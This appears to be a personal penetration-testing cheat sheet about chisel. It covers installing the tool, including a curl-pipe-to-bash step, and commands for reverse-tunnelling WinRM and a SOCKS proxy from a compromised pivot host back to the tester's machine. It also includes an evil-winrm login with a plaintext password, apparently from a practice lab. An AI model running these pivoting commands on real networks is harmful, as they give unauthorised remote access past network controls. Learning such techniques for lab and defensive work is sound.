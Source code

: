 ```yaml
---
creation date: March 21st 2023
last modified date: March 21st 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[chisel]]  
___

## Description:
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server.

## Installation
[chisel](https://github.com/jpillora/chisel)

For linux:
`curl https://i.jpillora.com/chisel! | bash`

For Windows:
Go to the release page, get URL for 32bit or 64bit ( I used https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_386.gz), wget, gunzip, change name to chisel.exe


## Commands

to forward winrm:
your machine
`./chisel server --reverse -p 9002

pivot machine
`./chisel client <your_machine>:9002 R:5985:172.16.22.1:5985


`evil-winrm -i 10.10.14.95 -u 'matthew' -p '147258369'

### socks server
On your machine:
`./chisel server --reverse -p 1080`

On remote machine:
`chisel32.exe client 10.10.14.95:1080 R:socks`

To use in the browser, set foxy proxy to socks5, 127.0.0.1, 1080.
To use with burp, set browser to use burp proxy, then set socks proxy in burp by going to settings, network, connections

To use with proxychains:
`sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf``
(might be socks5)

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 21st 2023 (09:42 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
